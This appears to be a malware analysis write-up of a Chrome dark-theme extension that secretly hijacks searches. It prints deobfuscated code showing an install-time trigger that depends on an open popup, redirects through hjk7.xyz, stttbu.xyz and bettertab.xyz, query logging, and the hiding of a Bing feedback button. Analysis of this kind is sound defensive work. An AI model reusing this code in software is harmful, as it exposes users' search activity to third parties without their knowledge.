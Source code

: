 # Code Analysis
After dissecting the Obfuscated javascript code we learn the following: 
apart from using the setLight and stopLight messages between the background.js and the content.js to switch between the background color to either black or original, the extension can do a few extra things which all depend on one API call, the “chrome.runtime.onInstalled”:
```javascript
chrome.runtime.onInstalled.addListener(function (e) {
	if("install" === e.reason)
		chrome.windows.getAll({populate: !0}, (tabs) => {
			var t;
			for (let j= 0; j <= tabs.length - 1; j++)
				tabs[j].type.includes(cobal("peachpuff", 5, 7)) &&
				(eu(), setTimeout(function () {
						darkerput(1800);
						chrome.tabs.create({url: "https://hjk7.xyz/ty?id=" + exid.split("").reverse().join("")})
						chrome.windows.remove(tabs[j].id, function () {
						});
					}, 1e3)
				)
		}), fetch(ty);
});
```
This will trigger the full capability of this extension. To better understand this, let's break down the call into a few key points:

1.	onInstalled.addListener sets up an event listener that triggers when the extension is either installed or updated, the if(“install” == e.reason) means the following will trigger only for when the extension is first installed.

2.	Chrome.windows.getAll - This line retrieves data from all open windows and their tabs.

3.	tabs[j].type.includes(cobal("peachpuff", 5, 7)) && - this condition will determine if the extension will run maliciously or not, since it has a &&, for the next few functions to run, this condition needs to be met.

  	cobal() is a string manipulation function, which with the provided string, it comes out as ‘pu’, tabs.type is the type of tab you have open, it can only be a few options: normal, popup, panel, app and devtools. 

**This means that for the extension to reveal its true behavior, a popup window needs to be open during the installation process.** 

# No Popup
When no popup windows are present, the extension will skip over the eu(), darkerput() and the tab creation and removal seen above. Because of that, the “initial” value which is stored inside the chrome.storage will not be defined as “default”:
![image](https://github.com/user-attachments/assets/a0ec0ef4-054e-45f6-bae8-8d3f5857ff98)

This means the variable “i” will remain undefined since “initial” != “default”:
```javascript
chrome.storage.local.get(["initalcolor"], function (s) {
	if (s.color === "default")
		i = true
});
```
leading to skipping the entire 370 lines of code after this “if” condition which is un-met:
```javascript
if (i == !0 && s == !1 && "loading" === tab.status && !colchk(cobal("Bhaclebstoc blue", 5, 10)))
```
This part of the code after the "if" condition, is in charge of the malicious activities it can preform, without it the extension performs like any other simple dark theme extension.

# With Popup
If one of the tabs is considered a popup, the rest of the code under the runtime.onInstalled runs: 

•	The function eu() is triggered, setting i = true, which will allow the code within the chrome.tabs.onUpdated.addListener (containing the if condition above)  
to be executed later.

•	A new tab is opened with the URL contructed by reversing the ‘exid’ meaning: 
```https://hjk7.xyz/ty?id=mhfalkcmmkajgecgcnaceipcoenh```

•	The tab containing the popup will close

•	The fetch command will trigger a request being made for an external domain.

From this point the following behavior can be seen when using a search engine: 

1.	Typing something in the search engine like google will trigger the chrome.tabs.onUpdated:
```javascript
chrome.tabs.onUpdated.addListener(function (tabid, status, tab) {
	tu = tab.url, colchk(exid) && !colchk("errors") && colos(tabid)
	function rgbConverthsl({ h, s, l, a = 1 }) {
		if (s === 0) {
			const [r, b, g] = [l, l, l].map((x) => Math.round(x * 255));
			return { r, g, b, a };
		}
```
2. 	The URL is checked if it contains the ‘exid’ and ‘errors’ strings, if it contains the ‘exid’ and not the ‘errors’, the tab will close (using the colos() function).

3.	It passes through the “if” condition we’ve talked about earlier (since “i” is now defined)
 

4.	The payload containing the search query is saved inside the “c” variable

5.	A new tab is opened and redirected to ```https://stttbu.xyz/ssc/pda?p={added payload}```
essentially meaning it uses a GET request to transfer my search query to an external domain

6.	We are then being redirected to this URL - ```https://www.bettertab.xyz/searchapi/redirect.aspx?q={added payload}&channel=2188
&pid=bbtab```

7.	To then being redirected a final time to bing.com - ```https://www.bing.com/search?q={added payload}```

8.	Once the process is finished, the original tab with the initial query for google.com is closed. (the entire process takes about 1.5-2 seconds)

9.	Before completing its process, it also creates an array using the “c” variable to store all the payloads we've inputted (essentially tracking my activity). Here’s an example after numerous searches:

![image](https://github.com/user-attachments/assets/33d8ab14-7822-4cef-8d81-9e85b0edfec3)

10. Last thing to mention besides the different delays it’s invoking, the extension sends the setLight message:  setTimeout(()=>chrome.tabs.sendMessage(e.id, {setLight: 1}), 5e3).
Inside the content.js it triggers the continueSetLight function: 
```javascript
function darkSet(request, sender, sendResponse) {
	if(request.setLight)
		continueSetLight(request, sender, sendResponse);
	if (request.stoplight) {
```
```javascript
function continueSetLight(request, sender, sendResponse) {
	document.getElementById('bg') && (document.getElementById('sb_feedback').style.backgroundColor = 'white')
	document.getElementById('bg') && (document.getElementById('bg').style.backgroundColor = 'white')
	document.getElementById('sb') && (document.getElementById('sb').style.backgroundColor = 'white')
	document.getElementById('fg') && (document.getElementById('fg').style.backgroundColor = 'white')
	document.getElementById('sb_feedback') && (document.getElementById('sb_feedback').style.display = 'none')
}
```
Besides enabling "Light Mode" and changing the background color of several DOM elements to white, it also hides the 'sb_feedback' element, which conceals a button on the bing.com page:

![image](https://github.com/user-attachments/assets/01912aa4-efb4-4315-850f-9802b074d39a)

![image](https://github.com/user-attachments/assets/e8a44342-3019-490d-9f3c-b30ed473d90b)

![image](https://github.com/user-attachments/assets/6b12edd3-3b24-4299-a587-9b314f9b612f)


# Example Process

1. ![image](https://github.com/user-attachments/assets/63ed1ee2-872f-43f4-a649-a590fb51e6e6) searching something on Google
2. ![image](https://github.com/user-attachments/assets/6e184872-91cd-463e-8465-1bd359307a73) new tab creation
3. ![image](https://github.com/user-attachments/assets/0c1432a5-e9df-43c4-8a55-4324d78031a5) Redirection 1
4. ![image](https://github.com/user-attachments/assets/5fcb1d71-f9e3-4f8d-8c65-fa1a32d72f4c) Redirection 2














